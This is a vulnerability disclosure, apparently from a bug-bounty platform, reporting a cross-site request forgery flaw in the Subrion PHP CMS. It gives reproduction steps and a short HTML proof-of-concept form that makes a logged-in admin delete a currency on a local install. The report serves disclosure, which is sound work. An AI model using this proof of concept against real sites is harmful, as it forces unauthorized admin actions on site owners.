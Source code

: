 # Description
`Subrion` is PHP based CMS. It is one of the best CMS I ever used.The Project is vulnerable to CSRF attack which allows a user to force admin to delete the "Currencies" added in the site.

# Steps To Reproduce & POC
1:Download and Setup `Subrion` [Subrion-Link](https://github.com/intelliants/subrion/)   
2:Extract the source code to an Apache server with MYSQL   
3:As Default 3 Currencies are added in the Site you can view it by navigaing to http://localhost/huntr/subrion/panel/currencies/   
4:Save the below code as HTML and Click Submit . The Currencie will be deleted    
```
html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/subrion/panel/currencies/delete/EUR/">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
# Impact
This can allow a user to force admin to remove "Currencies" from the website

